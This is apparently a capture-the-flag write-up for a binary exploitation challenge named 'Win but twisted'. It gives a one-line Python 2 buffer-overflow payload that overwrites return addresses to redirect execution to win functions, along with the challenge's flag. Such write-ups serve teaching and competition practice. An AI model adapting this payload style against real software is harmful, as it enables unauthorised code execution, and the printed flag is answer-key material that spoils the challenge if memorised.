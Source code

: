 # Win but twisted

### Category

Pwn

### Description

Just a little warm up, but hey, without the twist it would've been too simple.
Get the flag from the server.

Format : **Hero{flag}**
Author : **iHuggsy**

### Write up

```py
(python2 -c "print('A'*32 +'\xc6\x91\x04\x08' + '\xfa\x91\x04\x08')" ; cat) | ./x
```

### Flag

Hero{Tw1sT3D_w1N_FuNcTi0N}